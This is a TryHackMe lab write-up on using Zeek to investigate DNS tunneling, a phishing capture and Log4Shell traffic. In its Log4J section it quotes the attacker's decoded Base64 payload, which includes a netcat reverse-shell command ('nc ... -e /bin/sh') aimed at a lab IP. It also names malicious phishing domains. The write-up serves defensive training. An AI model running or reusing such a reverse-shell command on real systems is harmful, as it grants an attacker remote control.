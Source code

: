 # TryHackMe Room: Zeek Exercises

This room was a practical extension of the previous Zeek room, focusing on using the tool to analyze network traffic for specific threats. I practiced identifying anomalous DNS activity, investigating a phishing attempt, and detecting a Log4J vulnerability by correlating Zeek logs with external tools and decoding malicious payloads.

---

## Anomalous DNS

### 1. Investigate the dns-tunneling.pcap file. Investigate the dns.log file. What is the number of DNS records linked to the IPv6 address?

First, I navigated to the appropriate folder and used the standard zeek command to process the dns-tunneling.pcap file. Then, I used zeek-cut to inspect the qtype_name field in the dns.log file. I sorted and counted the unique records to find the number of AAAA records, which are used for IPv6.

zeek -C -r dns-tunneling.pcap
cat dns.log | zeek-cut qtype_name | sort | uniq -c

[Screenshot 01: DNS AAAA count](./screenshots/01-dns-aaaa.png)

### 2. Investigate the conn.log file. What is the longest connection duration?

I filtered the conn.log file for the duration field, sorted the output in reverse order, and displayed the top result using the head command.

cat conn.log | zeek-cut duration | sort -r | head -n 1

[Screenshot 02: Longest connection duration](./screenshots/02-longest-duration.png)

## 3. Investigate the dns.log file. Filter all unique DNS queries. What is the number of unique domain queries?

I used a multi-stage command to clean up the DNS queries before counting them. First, I used zeek-cut to get the query field. Then, I used rev to reverse the string, which allowed me to use cut to isolate the last two components (e.g., com.google instead of www.google.com). After reversing the string back with rev, I used sort, uniq, and wc -l to get the final count of unique domains.

cat dns.log | zeek-cut query |rev | cut -d '.' -f 1-2 | rev | sort |uniq | wc -l

[Screenshot 03: Unique domain queries count](./screenshots/03-unique-domains.png)

### 4. There are a massive amount of DNS queries sent to the same domain. This is abnormal. Let's find out which hosts are involved in this activity. Investigate the conn.log file. What is the IP address of the source host?

I used zeek-cut to isolate the id.orig_h (originating host) field from conn.log. By sorting the results and counting the unique entries, it was easy to spot the source host with the highest number of connections.

cat conn.log | zeek-cut id.orig_h | sort | uniq -c

[Screenshot 04: Source IP from conn.log](./screenshots/04-conn-src-ip.png)

---

## Phishing

### 1. Investigate the logs. What is the suspicious source address? Enter your answer in defanged format.

I changed to the phishing folder and used the standard zeek command on the phishing.pcap file. Then, I used the same technique from the previous section to find the most active originating host.

zeek -C -r phishing.pcap
cat conn.log | zeek-cut id.orig_h | sort | uniq

[Screenshot 05: Phishing source IP](./screenshots/05-phishing-src-ip.png)

The result needed to be "defanged" — a process of neutralizing a potential threat indicator by altering it, making it unclickable and safe to share. For IP addresses, this involves putting the dots in brackets.

### 2. Investigate the http.log file. Which domain address were the malicious files downloaded from? Enter your answer in defanged format.

To find the malicious domain, I inspected the http.log file and looked at the uri and host fields.

[Screenshot 06: Malicious domain](./screenshots/06-malicious-domain.png)

The smart-fax.com domain was responsible for serving the malicious .exe file. I defanged the domain by putting the dot in brackets, similar to the IP address.

### 3. Investigate the malicious document in VirusTotal. What kind of file is associated with the malicious document?

First, I used Zeek with the hash-demo.zeek script to find the MD5 hash of the files in the pcap capture.

zeek -C -r phishing.pcap hash-demo.zeek
cat files.log | zeek-cut mime_type md5

[Screenshot 07: MD5 hash from files.log](./screenshots/07-md5-files-log.png)

I copied the MD5 hash of the second file listed (application/msword) and pasted it into VirusTotal. Under the Relations tab, in the Bundled Files section, I found the associated file type.

[Screenshot 08: VirusTotal Relations tab](./screenshots/08-vt-relations.png)

### 4. Investigate the extracted malicious .exe file. What is the given file name in Virustotal?

I copied the MD5 hash of the third file listed (the .exe file) and searched for it on VirusTotal. The file name was listed directly under the hash on the main page.

[Screenshot 09: VirusTotal .exe filename](./screenshots/09-vt-exe-filename.png)

### 5. Investigate the malicious .exe file in VirusTotal. What is the contacted domain name? Enter your answer in defanged format.

Staying on the same VirusTotal page, I navigated to the Behavior tab. By scrolling down to DNS Resolutions, I found the domain name that the malicious file attempted to contact. Its defanged version is hopto[.]org.

[Screenshot 10: VirusTotal DNS resolutions](./screenshots/10-vt-dns-resolutions.png)

### 6. Investigate the http.log file. What is the request name of the downloaded malicious .exe file?

The answer to this question was already found in task 2 of this section.

---

## Log4J

### 1. Investigate the log4shell.pcapng file with detection-log4j.zeek script. Investigate the signature.log file. What is the number of signature hits?

I went to the log4j folder and ran the Zeek command with the detection-log4j.zeek script. Then, I checked the signatures.log file for sig_id entries and counted them.

zeek -C -r log4shell.pcapng detection-log4j.zeek
cat signatures.log | zeek-cut sig_id | wc -l

[Screenshot 11: Signature hits count](./screenshots/11-signature-hits.png)

### 2. Investigate the http.log file. Which tool is used for scanning?

I used zeek-cut on the http.log file to get the user_agent field. After sorting and counting the unique entries, it was clear which tool was used for scanning due to the high number of duplicates.

cat http.log | zeek-cut user_agent|sort| uniq -c

[Screenshot 12: User agent from http.log](./screenshots/12-user-agent.png)

### 3. Investigate the http.log file. What is the extension of the exploit file?

I used zeek-cut on http.log to get the uri field and then piped the output to sort and uniq to see all unique file extensions.

cat http.log | zeek-cut uri| sort | uniq

[Screenshot 13: Exploit file extension](./screenshots/13-file-extension.png)

### 4. Investigate the log4j.log file. Decode the base64 commands. What is the name of the created file?

First, I examined a few lines of the log4j.log file to understand the content. The value field contained a path with Base64-encoded commands.

cat log4j.log | zeek-cut value | head -n20

I used grep to find the specific Base64 command, which I then copied and decoded in CyberChef.

[Screenshot 14: Base64 value from log4j.log](./screenshots/14-base64-value.png)

The decoded output revealed a series of commands, including one that creates a file.

[Screenshot 15: Decoded commands in CyberChef](./screenshots/15-cyberchef-decoded.png)

The commands were touch /tmp/pwned, which nc > /tmp/pwned, and nc 192.168.56.102 80 -e /bin/sh -vvv. The created file was named pwned.

---

## Summary
In this room, I practiced:

Using advanced command-line techniques to analyze network logs and filter out noise.

Identifying suspicious patterns associated with DNS tunneling.

Investigating a phishing attack by correlating local logs with external resources like VirusTotal.

Learning to analyze and defang malicious IP addresses and domains.

Detecting and analyzing a Log4J vulnerability by using a specific Zeek script and decoding a Base64 payload.

This room was a great exercise in applying Zeek for real-world threat hunting and incident response
